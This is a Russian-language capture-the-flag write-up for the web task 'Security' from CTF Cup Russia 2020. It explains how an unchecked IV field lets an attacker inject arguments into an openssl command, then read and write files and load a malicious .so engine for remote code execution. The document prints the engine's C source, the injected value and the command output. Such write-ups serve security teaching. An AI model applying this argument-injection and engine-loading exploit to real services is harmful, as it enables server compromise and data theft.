

# Тасковый этап Кубка CTF России 2020

## Web | Security

### Описание

> Всем известно, что для обеспечения информационной безопасности необходимо использовать алгоритмы шифрования!
> 
> Для этого я написал сервис, который помогает производить операции шифрования и расшифровывания.
> 
> Если хотите почувствовать себя в безопасности, воспользуйтесь им!

### Решение

Таск представлет собой веб-сервис, который умеет зашифровывать и расшифровывать произвольный текст с произвольными ключами:



Можно потыкать в сервис и заметить, что если при расшифровке текста в большинстве режимов что-то "сломать" (например, указать неверный ключ, IV или сам шифртекст), то сервер будет ругаться ошибкой:

```
bad decrypt
140489628592896:error:06065064:digital envelope routines:EVP_DecryptFinal_ex:bad decrypt:evp_enc.c:531:
```

Поиск в интернете выдаёт, что это ошибка библиотеки `openssl` — скорее всего, на сервере используется именно она. Запомним это и попробуем позасылать разные значения в поля, чтобы найти другие ошибки.

У вводимых значений было несколько проверок, таких как:

- длина ключа и IV должна быть равна 32
- режим должен быть одним из тех, что предложены в интерфейсе
- при расшифровке шифртекст должен состоять только из hex-символов
- ключ должен состоять только из hex-символов, но **для IV такая проверка отсутствует**!

Поскольку IV может состоять из любых символов, попробуем передавать туда разные символы и искать ошибку (будем использовать режим CBC, так как IV не используется в ECB). Так, например, если передать пробел в качестве одного символа (например, вот так `8F0151BC1F8C30E2992DE5DF9CF121 C`), мы получим ошибку `openssl`:

```
unknown option 'C'
options are
-in <file>     input file
-out <file>    output file
-pass <arg>    pass phrase source
-e             encrypt
-d             decrypt
-a/-base64     base64 encode/decode, depending on encryption flag
-k             passphrase is the next argument
-kfile         passphrase is the first line of the file argument
-md            the next argument is the md to use to create a key
                 from a passphrase.  One of md2, md5, sha or sha1
-S             salt in hex is the next argument
-K/-iv         key/iv in hex is the next argument
-[pP]          print the iv/key (then exit if -P)
-bufsize <n>   buffer size
-nopad         disable standard block padding
-engine e      use engine e, possibly a hardware device.
Cipher Types
-aes-128-cbc               -aes-128-ccm               -aes-128-cfb              
-aes-128-cfb1              -aes-128-cfb8              -aes-128-ctr              
...
```

Это значит, что `openssl` разделил наш IV и интерпретировал его часть как свой аргумент. Получается, что мы умеем контролировать аргументы для `openssl`. Посмотрим, что с этим можно сделать.

- Во-первых, сразу из полученной ошибки мы видим, что можем производить запись и чтение произвольных файлов, используя параметры `-in <file>` и `-out <file>`. Нужно помнить, что `openssl` будет их расшифровывать выбранным шифром, поэтому перед загрузкой файлы нужно зашифровать.

- Во-вторых, у библиотеки `openssl` есть интересный ключ:

```
-engine e      use engine e, possibly a hardware device.
```

Он нужен для того, чтобы попросить `openssl` использовать кастомный движок — `.so`-библиотеку, которая содержит необходимые функции для шифрования. Так как мы умеем загружать файлы, мы можем указать путь до библиотеки в параметре `-engine`, и `openssl` постарается использовать её как движок. В интернете можно найти инструкции к тому, как писать движки для `openssl`, с примерами исходного кода. Будем использовать достаточно простой вариант:

```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
    system("id");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Этот код должен вывести результат выполнения `id`. Соберём его как библиотеку и загрузим её в `/tmp/libsploit.so` (файлы загружать мы умеем описанным выше способом). Затем попробуем передать `-engine /tmp/libsploit.so` в следующую команду для `openssl` и получим результат выполнения `id`:

```
invalid engine "/tmp/libsploit.so"
139644963072768:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
139644963072768:error:2606A074:engine routines:ENGINE_by_id:no such engine:eng_list.c:390:id=/tmp/libsploit.so
139644963072768:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
bad decrypt
139644963072768:error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length:evp_enc.c:520:
uid=1000(security) gid=1000(security) groups=1000(security)
uid=1000(security) gid=1000(security) groups=1000(security)
```

В выводе `openssl` содержатся какие-то ошибки про неверный движок: это из-за того, что наш движок не реализует полностью интерфейс движка, поэтому некоторые символы в нём отсутствуют. Но функция `bind` вызывается, а значит у нас есть рабочий RCE.

Выполним что-то вроде `ls -la && cat flag*`, чтобы получить флаг:

```
invalid engine "/tmp/libsploit.so"
140500984400640:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
140500984400640:error:2606A074:engine routines:ENGINE_by_id:no such engine:eng_list.c:390:id=/tmp/libsploit.so
140500984400640:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
bad decrypt
140500984400640:error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length:evp_enc.c:520:
total 24
drwxr-xr-x 1 root root 4096 Nov 29 20:38 .
drwxr-xr-x 1 root root 4096 Nov 26 20:37 ..
-rw-r--r-- 1 root root   40 Nov 26 21:21 flag_ff9b671626b8477012f041dc42d76c885341bb35c5290fe4a2ae965d80d70a12.txt
-rw-r--r-- 1 root root 2104 Nov 26 20:25 libcrypt.py
-rwxr-xr-x 1 root root 2318 Nov 26 20:59 security_7b6ae759.py
drwxr-xr-x 2 root root 4096 Nov 29 20:38 templates
ctfcup{0p3nssl_1.0_1s_d4ng3r0usssz....}
```
